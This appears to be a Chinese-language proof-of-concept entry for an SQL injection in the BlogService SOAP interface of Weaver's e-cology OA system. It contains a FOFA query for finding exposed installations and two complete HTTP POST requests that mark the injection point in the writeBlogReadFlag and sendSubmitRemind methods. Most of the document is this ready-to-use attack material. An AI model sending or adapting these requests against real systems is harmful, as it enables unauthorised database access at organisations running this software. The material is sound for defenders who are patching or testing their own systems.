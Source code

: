 泛微ecology系统接口/services/BlogService  
存在SQL注入漏洞  
- fofa  
app="泛微-OA（e-cology）"  
- poc  
```
POST /services/BlogService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.3.139
Content-Length: 493

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.blog.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:writeBlogReadFlag>
         <web:string>1</web:string>
         <web:string>注入点</web:string>
         <web:string></web:string>
      </web:writeBlogReadFlag>
   </soapenv:Body>
</soapenv:Envelope>
```  
```
POST /services/BlogService HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: 
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 192.168.3.139
Content-Length: 469

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.blog.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:sendSubmitRemind>
         <!--type: string-->
         <web:in0>1</web:in0>
         <!--type: string-->
         <web:in1>2</web:in1>
         <!--type: string-->
         <web:in2>注入点</web:in2>
      </web:sendSubmitRemind>
   </soapenv:Body>
</soapenv:Envelope>
```  
- 漏洞来源  
- [https://mp.weixin.qq.com/s/4mJg0FuOOIBjZn-qTMSaeA](https://mp.weixin.qq.com/s?__biz=Mzg5MjY2NTU4Mw==&mid=2247486033&idx=1&sn=37f9ab5a775d8bfbb11cb6bed7a07e03&scene=21#wechat_redirect)  
  